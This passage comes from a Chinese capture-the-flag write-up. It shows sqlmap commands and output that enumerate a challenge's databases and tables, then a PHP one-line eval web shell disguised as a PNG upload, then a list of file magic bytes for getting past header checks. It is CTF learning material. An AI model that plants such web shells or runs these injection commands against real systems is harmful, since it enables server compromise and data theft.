 ​	发现注入点之后，我们就可以进行利用，我们使用语句`sqlmap -u "https://hostname.com/book?id=1" --cookie="COOKIE" --dbs`查看数据库中的所有库。

```shell
[17:11:51] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] library
[*] mysql
[*] performance_schema
[*] sys
```

​	获取到数据库之后我们就可以使用`-D`指定数据库，使用`--tables`查看数据库中的表。

```shell
[17:13:34] [INFO] fetching tables for database: 'library'
Database: library
[3 tables]
+-------+
| books |
| flag  |
| users |
+-------+
```

​	我们看到了其中有flag表，我们就可以使用`-T`参数指定表，使用`--dump`获取表中的数据。

## 补充

​	详细使用方法可以查看[SQLmap使用教程图文教程（非常详细）从零基础入门到精通，看完这一篇就够了。-CSDN博客](https://blog.csdn.net/dzqxwzoe/article/details/132683722)，感觉写的不错。

# Imagehost

​	经典的图床题目，能用来检测的方法也没集中，首先这个系统是php构建的，那我们就来写一个🐎。

````php
// img.php

<?php 
@eval($_REQUEST['qwq']);
````

​	之后重命名为img.png上传，系统返回：`这不是图片，别想骗我😡`

​	之后就是文件头检测，常见文件文件头如下：

```shell
JPEG (图片文件)
文件头：FF D8 FF
文件尾：FF D9
PNG (图片文件)
文件头：89 50 4E 47 0D 0A 1A 0A
文件尾：49 45 4E 44 AE 42 60 82
GIF (图片文件)
文件头：47 49 46 38 37 61 或 47 49 46 38 39 61
文件尾：00 3B
PDF (文档文件)
文件头：25 50 44 46 2D
文件尾：25 25 45 4F 46
ZIP (压缩文件)
文件头：50 4B 03 04
文件尾：通常没有固定的文件尾标识，但文件结构以50 4B 05 06或50 4B 06 06结尾。
RAR (压缩文件)
文件头：52 61 72 21 1A 07 00
文件尾：没有固定的文件尾标识。
MP3 (音频文件)
```